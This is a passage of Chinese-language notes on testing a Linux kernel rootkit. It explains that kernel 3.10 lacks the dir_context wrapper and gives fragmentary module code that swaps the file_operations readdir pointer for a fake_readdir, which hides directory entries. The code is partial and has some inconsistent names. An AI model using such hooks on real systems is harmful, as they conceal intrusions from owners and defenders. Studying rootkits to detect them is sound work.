 ~~~c
	int (*setlease)(struct file *, long, struct file_lock **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	int (*show_fdinfo)(struct seq_file *m, struct file *f);
};
~~~

本来在高版本内核上面的filldir_t是封装到`struct dir_context`结构体上面的，但是在3.10里面是没有这一层的封装的，因此就更容易拿到相关的函数地址进行替换。

修改后的简略代码：

~~~c
int
(*real_filldir)(struct dir_context *ctx,
                const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type);
int 
fake_readdir(struct file *filp, void *ctx, filldir_t filldir);
int
(*real_readdir)(struct file *filp, void *ctx, filldir_t filldir);

int
fake_filldir(void *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type);
int
init_module(void)
{
    fm_alert("%s\n", "Greetings the World!");

    set_file_op(readdir, ROOT_PATH, fake_readdir, real_readdir);
    if (!real_iterate) {
        return -ENOENT;
    }

    return 0;
}
~~~

### 问题五：C代码结构体编译

​	![image-20210729105512495](Kernel-Rootkit测试.assets/image-20210729105512495.png)
